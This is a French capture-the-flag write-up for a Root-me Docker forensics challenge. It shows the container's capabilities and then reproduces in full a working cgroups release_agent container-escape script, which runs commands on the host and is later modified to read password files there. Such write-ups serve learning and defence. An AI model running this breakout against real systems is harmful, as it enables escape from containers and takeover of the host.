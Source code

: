 ```yaml
---
title: Root-me - Sys-Admin’s Docker
meta_title: ""
description: 
date: 2024-06-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - Forensic
  - Facile
author: Tmax
tags:
  - Forensic
  - Rootme
  - Docker
draft: false
---
```


# Introduction

Pour ce challenge, nous allons devoir travailler avec des conteneurs. 

{{< tabs >}} {{< tab "Niveau 1" >}}
- Vous avez bien lu la description du challenge ? Les ressources également ? Le titre ? 
- Vous avez regardé le contenu qu'Hacktricks propose ?  

{{< /tab >}}

{{< tab "Niveau 2" >}}

Une fois qu'on a la main sur le conteneur, la première chose à faire est de vérifier les capabilities. Ce sont en quelques sortes les privilèges qui sont accordés à notre conteneur. 

```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_admin,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_admin,cap_mknod,cap_audit_write,cap_setfcap
Ambient set =
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
 secure-no-ambient-raise: no (unlocked)
uid=0(root) euid=0(root)
gid=0(root)
groups=0(root)
Guessed mode: UNCERTAIN (0)
```

On a beaucoup de cap intéressantes (net_raw, sys_admin, sys_chroot) qui nous laissent penser que le conteneur est démarré en `privilegied`. 
Normalement, on se contenterait de monter les partitions `/dev/s*` mais elles ne sont pas disponible. 

Si on fait un tour sur Hacktricks, il semble que le cap `sys_admin` nous permettent d'exploiter une vulnérabilité de la fonctionnalité notify_on_release dans cgroupsv1.

Ici nous pouvons retrouver des scripts pour pouvoir réaliser ce [breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged-escape-abusing-release_agent-without-known-the-relative-path-poc3). 

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}

```

Cet exploit fonctionne et je peux donc envoyer un ps aux sur l'hote. Alors je peux envoyer la commande que je veux.  

Il suffit de modifier 

```
# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__
```

par 

```
cat .passwd > \${OUTPATH} 2>&1
cat /passwd > \${OUTPATH} 2>&1
```


{{< /tab >}}
{{< /tabs >}}
